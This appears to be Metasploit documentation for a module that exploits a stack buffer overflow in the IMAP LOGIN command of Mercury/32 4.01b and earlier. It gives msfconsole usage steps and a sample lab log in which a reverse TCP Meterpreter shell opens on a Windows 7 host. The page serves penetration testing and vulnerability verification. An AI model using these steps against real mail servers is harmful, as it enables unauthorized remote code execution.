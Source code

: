 Mercury/32 <= 4.01b contains an stack based buffer overflow in IMAPD LOGIN verb. Sending an specially crafted IMAP login command allows remote code execution.

## Vulnerable Application

This module exploits a stack buffer overflow in Mercury/32 <= 4.01b IMAPD LOGIN verb. By sending a specially crafted login command, a buffer is corrupted, and code execution is possible. This vulnerability was discovered by (mu-b at digit-labs.org).

* [Mercury/32 v4.01a](https://www.exploit-db.com/apps/8e0bf8aec964af66a5d440ef705d548f-m32-401a.exe)
* [Mercury/32 v4.01b upgrade](http://web.archive.org/web/20070119125847if_/http://ftp.usm.maine.edu/pegasus/Mercury32/m32-401b.zip)

This module has been tested successfully on:

* Mercury/32 v4.01a on Windows XP SP3 (x86)
* Mercury/32 v4.01a on Windows 7 SP1 (x86)
* Mercury/32 v4.01b on Windows 7 SP1 (x86)

## Verification steps

  1. Install the vulnerable Mercury/32 application
  2. Start msfconsole
  3. Do: `use exploit/windows/imap/mercury_login`
  4. Do: `set RHOST IP`
  5. Do: `exploit`
  6. You should get a shell.

## Scenarios

### Mercury/32 v4.01a on Windows 7 SP1 x86
```
msf > use exploit/windows/imap/mercury_login1
msf exploit(windows/imap/mercury_login1) > set rhost 192.168.46.144
rhost => 192.168.46.144
msf exploit(windows/imap/mercury_login1) > exploit

[*] Started reverse TCP handler on 192.168.46.1:4444
[*] 192.168.46.144:143 - Sending payload (8931 bytes) ...
[*] Sending stage (179779 bytes) to 192.168.46.144
[*] Meterpreter session 1 opened (192.168.46.1:4444 -> 192.168.46.144:49219) at 2018-10-27 20:43:14 +0200

meterpreter >
Computer        : WIN-DQ8ELRSOJAO
OS              : Windows 7 (Build 7601, Service Pack 1).
Architecture    : x86
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
```
